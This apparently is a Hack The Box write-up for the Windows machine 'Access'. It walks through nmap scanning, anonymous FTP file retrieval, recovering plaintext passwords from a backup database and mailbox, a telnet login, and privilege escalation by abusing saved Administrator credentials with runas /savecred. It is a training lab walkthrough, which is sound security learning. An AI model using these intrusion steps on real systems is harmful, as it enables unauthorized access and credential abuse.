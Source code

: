 ```yaml
---
title: "Access - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Access
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
sidebar:
        nav: "menu_writeups"
excerpt: ""
---
```


## Access
![](https://kar0nx.github.io/assets/images/writeup/adef7ad3d015a1fbc5235d5a201ca7d1.webp)
 
## Reconnaissance

IP: 10.10.10.98
### NMAP

```
nmap -T4 -p- -A 10.10.10.98
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 07:45 EST
Nmap scan report for 10.10.10.98
Host is up (0.031s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
23/tcp open  telnet  Microsoft Windows XP telnetd
| telnet-ntlm-info: 
|   Target_Name: ACCESS
|   NetBIOS_Domain_Name: ACCESS
|   NetBIOS_Computer_Name: ACCESS
|   DNS_Domain_Name: ACCESS
|   DNS_Computer_Name: ACCESS
|_  Product_Version: 6.1.7600
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: MegaCorp
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|7|2008|8.1|Vista (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows 7 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (89%)                                                                                            
No exact OS matches for host (test conditions non-ideal).                                                               
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: 27s

TRACEROUTE (using port 23/tcp)
HOP RTT      ADDRESS
1   31.42 ms 10.10.14.1
2   31.65 ms 10.10.10.98

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.46 seconds
```

Nmap shows 3 open ports 21 - FTP, 23 - telnet, and 80 - http.
Site is simple Windows ISS, so enumerate ftp.

## FTP

```
ftp 10.10.10.98
	anonymous
	anonymous
```

Anonymous login works great, and we have 2 files here, let's download it and check

```
binary 
cd backup
get backup.mdb
cd ..
cd engineer
get "access control.zip"
```

After long exploring backup db, I found credentials 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250308134508.png)

No one works with telnet but one is password for:

```
access control.zip  -- access4u@security
```

let's load output into outlook and explore. I found that password for security account has been changed

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250308135350.png)

## Gaining Access
### Telnet

```
telnet 10.10.10.98
	security
	4Cc3ssC0ntr0ller
```

I manage to log in via telnet what gives low-level access as security user

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250308135559.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250308140051.png)

We can grab first flag

```
type C:\Users\security\Desktop\user.txt
```

## Privilege Escalation

After gaining access to the machine, I looked for potential ways to escalate privileges. I discovered that I could use runas to run commands as the Administrator user by utilizing the /savecred option.

I used the following runas command to execute a command as Administrator and save the credentials:

```
cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
```

```
c:\windows\system32\runas.exe /user:ACCESS\Administrator /savecred "c:\windows\system32\cmd.exe /c TYPE c:\users\administrator\desktop\root.txt > c:\users\security\root.txt"
```

This command runs as the Administrator user and saves the output of root.txt to a location where the security user can access it.

After that we can type root.txt

```
C:\Users\security>type root.txt
```
